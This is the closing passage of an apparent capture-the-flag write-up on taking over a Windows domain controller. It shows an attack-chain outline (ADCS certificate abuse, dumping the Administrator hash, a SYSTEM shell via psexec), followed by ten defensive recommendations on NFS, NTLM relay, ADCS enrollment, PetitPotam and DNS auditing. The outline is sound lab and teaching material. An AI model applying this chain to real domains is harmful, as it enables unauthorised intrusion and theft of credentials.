certipy auth → Machine Account Hash (dc-jpq225$)
    ↓
secretsdump.py → Administrator Hash
    ↓
psexec.py → SYSTEM Shell
    ↓
Root Flag → Complete Compromise
```


---

## Mitigations & Security Recommendations

1. **Secure NFS Shares**: Restrict NFS exports to specific IP ranges and require authentication. Avoid exporting shares with "everyone" permissions.

2. **Remove Plaintext Passwords from Images**: Never embed passwords in images or documents stored on network shares. Use password managers or secure credential storage.

3. **Disable NTLM**: If possible, disable NTLM authentication to prevent NTLM relay attacks. Ensure Kerberos is configured properly.

4. **Secure ADCS Web Enrollment**: Require HTTPS for web enrollment and restrict access to authorized users. Disable HTTP web enrollment.

5. **Monitor DNS Records**: Audit DNS records regularly for suspicious names containing marshaled target information strings (`1UWhRC...`).

6. **Disable Anonymous SMB Access**: Remove guest/null session access to SMB shares. Require authentication for all SMB access.

7. **Implement Least Privilege**: Limit the privileges of machine accounts. The Domain Controller's machine account should not have unrestricted access to NTDS.

8. **Enable Auditing**: Monitor for PetitPotam coercion attempts (EfsRpcAddUsersToFile) and suspicious certificate requests.

9. **Patch ADCS**: Regularly update ADCS to address known vulnerabilities (ESC1-ESC8).

10. **Implement Credential Guard**: Use Windows Defender Credential Guard to protect NTLM hashes and Kerberos tickets.
